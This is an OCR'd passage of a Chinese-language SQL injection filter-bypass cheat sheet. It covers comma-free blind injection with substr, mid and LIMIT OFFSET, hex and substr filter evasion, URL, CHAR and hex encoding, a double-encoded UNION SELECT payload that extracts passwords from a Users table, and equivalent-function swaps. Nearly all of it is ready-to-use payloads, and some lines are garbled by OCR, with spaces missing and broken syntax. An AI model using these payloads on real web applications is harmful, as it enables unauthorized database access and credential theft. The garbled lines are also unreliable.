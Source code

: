 在使用盲注的时候，需要使用到substr(),mid(),limit。这些子句方法都需要使用到逗号。对于substr()和mid()这两个方法可以使用from to的方式来解决：
selectsubstr(database(0from1for1);selectmid(database(0from1for1);

对于limit可以使用offset来绕过：

select*fromnews limit0,1# 等价于下面这条SQL语句select*fromnews limit1offset0

## 过滤hex

逻辑绕过
过滤代码 1 && substr(user,1,1) = unhex(61)
绕过方式 1 && substr(user,1,1) = lower(conv(11,10,16)) #十进制的11转化为十六进制，并小写。

## 过滤substr

逻辑绕过

过滤代码 1 && substr(user,1,1) = lower(conv(11,10,16)) 
绕过方式 1 && lpad(user(),1,1) in 'r'

## 编码绕过

利用urlencode，ascii(char)，hex，unicode等编码绕过

or 1=1即%6f%72%20%31%3d%31，而Test也可以为CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)。

### 十六进制编码

SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61))

### 双重编码绕过

?id=1%252f%252a*/UNION%252f%252a /SELECT%252f%252a*/1,2,password%252f%252a*/FROM%252f%252a*/Users--+

## 等价函数或变量

hex()、bin() ==> ascii()

sleep() ==>benchmark()

concat_ws()==>group_concat()

mid()、substr() ==> substring()

@@user ==> user()

@@datadir ==> datadir()

举例：substring()和substr()无法使用时：?id=1 and ascii(lower(mid((select pwd from users limit 1,1),1,1)))=74　

或者：
```
substr((select 'password'),1,1) = 0x70
strcmp(left('password',1), 0x69) = 1
strcmp(left('password',1), 0x70) = 0
strcmp(left('password',1), 0x71) = -1
```
